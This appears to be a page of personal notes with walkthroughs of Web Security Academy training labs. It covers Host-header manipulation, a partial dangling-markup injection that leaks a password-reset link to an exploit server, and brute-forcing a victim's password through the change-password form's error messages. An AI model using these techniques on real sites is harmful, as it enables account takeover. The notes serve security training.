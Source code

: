 ```bash
ac901ff11f9faf2cc0b8118e00e8009a.web-security-academy.net

To

anything.com

Receive the "504" code

HTTP/1.1 504 Gateway Timeout

change to 

Host: ac901ff11f9faf2cc0b8118e00e8009a.web-security-academy.net:check

It works with status code "200"

HTTP/1.1 200 OK

Please check your email for details on how to recover your account.

Replace "check" with a single quotation mark, an html href tag and your exploit server like so:

'<a href="//exploit-ac671f6c1f3daf36c01111bb01ae004b.web-security-academy.net/?
 
Change the username from "wiener" to "carlos"

```

RSJdrEz87b

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220510235453.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220511000154.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220511000225.png)


### Password brute-force via password change
```bash

# This lab's password change functionality makes it vulnerable to brute-force attacks. To solve the lab, use the list of candidate passwords to brute-force Carlos's account and access his "My account" page.

# -   Your credentials: `wiener:peter`
# -   Victim's username: `carlos`

Log in as wiener:peter
reset the password
Attempt to reset the password again with the wrong password
You should be logged out and flagged to wait a minute due to too many incorrect password attempts
Log back in
Try again with the wrong password

"Current password is incorrect"

Try again with the correct password, but two different "new-password" fields

"New passwords do not match"

Due to the hidden "username" field being present and the response above "New passwords do not match" if you are to input "carlos" as username and you bruteforce the password with two different "new-password" fields you should get the desired results
```